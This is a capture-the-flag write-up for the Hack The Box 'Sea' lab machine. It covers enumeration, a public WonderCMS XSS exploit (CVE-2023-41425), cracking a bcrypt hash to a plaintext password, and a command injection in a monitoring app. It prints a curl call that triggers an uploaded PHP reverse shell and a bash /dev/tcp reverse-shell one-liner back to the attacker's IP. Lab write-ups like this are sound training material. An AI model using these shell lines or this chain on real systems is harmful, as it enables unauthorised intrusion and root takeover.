## MACHINE INFO

> **[Sea](https://app.hackthebox.com/machines/Sea)** is an Easy Difficulty Linux machine that features [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425) in WonderCMS, a cross-site scripting (XSS) vulnerability that can be used to upload a malicious module, allowing access to the system. The privilege escalation features extracting and cracking a password from WonderCMS's database file, then exploiting a command injection in custom-built system monitoring software, giving us root access.

## ENUMERATION

Nmap Scan of Target
```sh
┌──(kai㉿kali)-[~/Machines/htb/s6]
└─$ sudo nmap -sCV -T4 -vv 10.129.195.214
[sudo] password for kai: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:07 EDT
<---snip--->
Nmap scan report for 10.129.195.214
Host is up, received echo-reply ttl 63 (0.83s latency).
Scanned at 2024-08-10 17:07:28 EDT for 30s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZDkHH698ON6uxM3eFCVttoRXc1PMUSj8hDaiwlDlii0p8K8+6UOqhJno4Iti+VlIcHEc2THRsyhFdWAygICYaNoPsJ0nhkZsLkFyu/lmW7frIwINgdNXJOLnVSMWEdBWvVU7owy+9jpdm4AHAj6mu8vcPiuJ39YwBInzuCEhbNPncrgvXB1J4dEsQQAO4+KVH+QZ5ZCVm1pjXTjsFcStBtakBMykgReUX9GQJ9Y2D2XcqVyLPxrT98rYy+n5fV5OE7+J9aiUHccdZVngsGC1CXbbCT2jBRByxEMn+Hl+GI/r6Wi0IEbSY4mdesq8IHBmzw1T24A74SLrPYS9UDGSxEdB5rU6P3t91rOR3CvWQ1pdCZwkwC4S+kT35v32L8TH08Sw4Iiq806D6L2sUNORrhKBa5jQ7kGsjygTf0uahQ+g9GNTFkjLspjtTlZbJZCWsz2v0hG+fzDfKEpfC55/FhD5EDbwGKRfuL/YnZUPzywsheq1H7F0xTRTdr4w0At8=
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMMoxImb/cXq07mVspMdCWkVQUTq96f6rKz6j5qFBfFnBkdjc07QzVuwhYZ61PX1Dm/PsAKW0VJfw/mctYsMwjM=
|   256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHuXW9Vi0myIh6MhZ28W8FeJo0FRKNduQvcSzUAkWw7z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:07
Completed NSE at 17:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:07
Completed NSE at 17:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:07
Completed NSE at 17:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.41 seconds
           Raw packets sent: 1125 (49.476KB) | Rcvd: 1124 (44.964KB)
```

### PORT 80 ENUMERATION

From the page source, I was able to identify the domain name `sea.htb` and there is a contact form.


**CONTACT FORM**


**GOBUSTER SCAN**
```sh
┌──(kai㉿kali)-[~/Machines/htb/s6]
└─$ gobuster dir -u http://10.129.195.214/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.195.214/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/0                    (Status: 200) [Size: 3685]
/404                  (Status: 200) [Size: 3376]
/data                 (Status: 301) [Size: 235] [--> http://10.129.195.214/data/]
/Documents and Settings (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3685]
/index.php            (Status: 200) [Size: 3685]
/messages             (Status: 301) [Size: 239] [--> http://10.129.195.214/messages/]
/plugins              (Status: 301) [Size: 238] [--> http://10.129.195.214/plugins/]
/Program Files        (Status: 403) [Size: 199]
/reports list         (Status: 403) [Size: 199]
/server-status        (Status: 403) [Size: 199]
/themes               (Status: 301) [Size: 237] [--> http://10.129.195.214/themes/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

There are several directories but I can't access them besides the ones with status code 200.

**FEROXBUSTER**
```sh
┌──(kai㉿kali)-[~/Machines/htb/s6/sea]
└─$ feroxbuster -u http://sea.htb/       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.4
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      231c http://sea.htb/plugins => http://sea.htb/plugins/
301      GET        7l       20w      228c http://sea.htb/data => http://sea.htb/data/
301      GET        7l       20w      230c http://sea.htb/themes => http://sea.htb/themes/
301      GET        7l       20w      232c http://sea.htb/messages => http://sea.htb/messages/
301      GET        7l       20w      234c http://sea.htb/data/files => http://sea.htb/data/files/
404      GET        0l        0w     3341c http://sea.htb/press-releases
404      GET        0l        0w     3341c http://sea.htb/themes/artist
404      GET        0l        0w     3341c http://sea.htb/data/infinite
301      GET        7l       20w      235c http://sea.htb/themes/bike => http://sea.htb/themes/bike/
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
404      GET        0l        0w     3341c http://sea.htb/data/files/cooking
404      GET        0l        0w     3341c http://sea.htb/propiedades
404      GET        0l        0w     3341c http://sea.htb/data/files/RentvsBuyCalc
404      GET        0l        0w     3341c http://sea.htb/messages/articlelink
404      GET        0l        0w     3341c http://sea.htb/gram
404      GET        0l        0w     3341c http://sea.htb/data/getpsw
404      GET        0l        0w     3341c http://sea.htb/themes/landing-page-3
404      GET        0l        0w     3341c http://sea.htb/data/ratsinfo
404      GET        0l        0w     3341c http://sea.htb/themes/bike/march
[####################] - 59m   270017/270017  0s      found:20      errors:198813 
[####################] - 56m    30000/30000   9/s     http://sea.htb/ 
[####################] - 56m    30000/30000   9/s     http://sea.htb/plugins/ 
[####################] - 56m    30000/30000   9/s     http://sea.htb/data/ 
[####################] - 56m    30000/30000   9/s     http://sea.htb/themes/ 
[####################] - 57m    30000/30000   9/s     http://sea.htb/data/files/ 
[####################] - 57m    30000/30000   9/s     http://sea.htb/messages/ 
[####################] - 55m    30000/30000   9/s     http://sea.htb/themes/bike/ 
[####################] - 55m    30000/30000   9/s     http://sea.htb/themes/bike/css/ 
[####################] - 55m    30000/30000   9/s     http://sea.htb/themes/bike/img/           
```

I hit a dead end but thanks to some hints on the official forum discussion on looking at the /themes/bike directory.

**THEMES/BIKE**
```sh
┌──(kai㉿kali)-[~/Machines/htb/s6/sea]
└─$ feroxbuster -u http://sea.htb/themes/bike/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,md,pdf        
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.4
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/themes/bike/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, md, pdf]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
200      GET       15l       50w      318c http://sea.htb/themes/bike/README.md
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
500      GET        9l       15w      227c http://sea.htb/themes/bike/theme.php
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE   
```


http://sea.htb/themes/bike/version

Version of what?

http://sea.htb/themes/bike/LICENSE


http://sea.htb/themes/bike/README.md



## INITIAL FOOTHOLD

The Wonder CMS bike theme. Time to find some exploits for it. There was a directory about a version `3.2.0` which I assumed is the Wonder CMS version disclosure.

I found a couple of exploits but decided to first try the one talking about XSS because of the contact form found earlier.
Exploit: https://github.com/prodigiousMind/CVE-2023-41425

**EXPLANATION OF EXPLOIT**
The exploit targets a reflected XSS vulenrability in Wonder CMS. It generates a javascript file that output a malicious link which is meant to be sent to the admin. Once the admin clicks on the link a reverse shell is uploaded and executed resulting in a connection back to the user.

In this case, we do not have the admin's interaction with the malicious link but the reverse shell is already uploaded so all we have to do is call on it.




`curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.48&lport=9001"`





We successfully have a shell, but we cannot access the user flag as the current user.

### LATERAL MOVEMENT

**/ETC/PASSWD**


We are interested in the `root, amay, geo` users 

Uploading linpeas to find interesting files


Remove the `\` escape characters
```sh
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```


```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```sh
password: mychemicalromance
```


### PRIVILEGE ESCALATION
I got stuck again!! Based on some hints from guys who had already solved it. 

At this point, I'm going to break it down step by step according to how I understood it.
First hint was to find running services or run linpeas again. I decided to use linpeas but there was alternative to run the `netstat -nltp` command


There is something running on the target's localhost port 8080. In order for us to find out what it is we have to apply port forwarding. 

We have user amay's credentials so we will use the following command
```sh
ssh -L 4444:127.0.0.1:8080 amay@sea.htb 
```

With this in place, turn on Burp Proxy on Browser or use the Burp Browser and intercept the request.
We get prompted for some login credentials. Use amay's credentials




We get the following web page with an interesting option at the bottom on analyzing files. 

Using burp intercept click on the analyze button and observe the request.


What happens when we try to use command injection when the request is being sent?

I had a couple of issues doing this but ultimately was guided towards adding a reverse shell one liner and intercepting the request, with my listener ready.
```sh
0<&196;exec 196<>/dev/tcp/10.10.16.48/9001; sh <&196 >&196 2>&196
```



And boom, we get a connection as root!!




## RESOURCES
- https://www.rosehosting.com/blog/how-to-install-wondercms-with-nginx-on-debian-11/#:~:text=You%20should%20see%20the%20WonderCMS,.example.com%2FloginURL.
- 